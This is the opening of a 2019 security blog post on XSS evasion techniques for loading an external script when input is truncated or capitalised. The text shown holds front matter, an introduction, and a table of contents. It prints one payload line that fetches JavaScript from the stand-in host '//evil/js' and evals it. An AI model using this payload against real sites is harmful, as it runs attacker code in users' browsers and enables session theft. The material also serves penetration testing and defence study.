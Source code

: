 ```yaml
---
layout: article
show_edit_on_github: false
title:  "XSS evasion techniques to fetch an external resource"
date:   2019-02-23 19:31 +1300
modify_date: 2019-02-28 13:44 +1300
tags:   xss evasion attack
article_header:
  type: cover
  image:
    src: /images/xss-fetch-evasion/cover.png
aside:
  toc: true
---
```


So you popped that sweet `alert(1)` and now want to do something that's actually useful, but the input is being truncated to 15 characters? Or maybe your input is being capitalized? Let's look at some ways to go around it.



# The payload

In this post I'll only look at fetching an external resource, rather than doing anything fancy within the inline XSS. Obviously this won't always work if the target is behind an egress firewall.

For example purposes the malicious JavaScript is at `//evil/js`. The payload, in a nutshell is:

```
fetch('//evil/js').then(r=>r.text().then(eval))
```

---

# Table of Contents

Encodings marked with :four_leaf_clover: can be easily customized for arbitrary payloads using either the `fetch_helpers.py` script in the [Appendix](#appendix-helper-script), or by trivial editting.

* [First things first](#first-things-first)
  - [Event handlers](#event-handlers)
* [Dealing with limited space](#dealing-with-limited-space)
  - [Usecase: character limit is &gt;= 20 (not including wrapping)](#usecase-character-limit-is--20-not-including-wrapping)
  - [Usecase: character limit is &gt;= 13 (not including wrapping)](#usecase-character-limit-is--13-not-including-wrapping)
  - :four_leaf_clover:[Usecase: character limit is &gt;= 10](#usecase-character-limit-is--10)
    + [How to modify it](#how-to-modify-it)
* [Dealing with capitalization](#dealing-with-capitalization)
  - :four_leaf_clover:[Usecase: payload is being capitalized, character limit &gt;= 131 (not including wrapping and length of external resource URL)](#usecase-payload-is-being-capitalized-character-limit--131-not-including-wrapping-and-length-of-external-resource-url)
    + [Explanation](#explanation)
  - :four_leaf_clover:[Usecase: payload is being capitalized, character limit &gt; ~342 (not including wrapping, may vary depending on external resource URL)](#usecase-payload-is-being-capitalized-character-limit--342-not-including-wrapping-may-vary-depending-on-external-resource-url)
    + [Explanation (with comments)](#explanation-with-comments)
    + [How to modify it](#how-to-modify-it-1)
  - [Usecase: payload is being capitalized, character limit &gt;= 10](#usecase-payload-is-being-capitalized-character-limit--10)
* [Appendix: Helper script](#appendix-helper-script)
* [References and further reading](#references-and-further-reading)

---
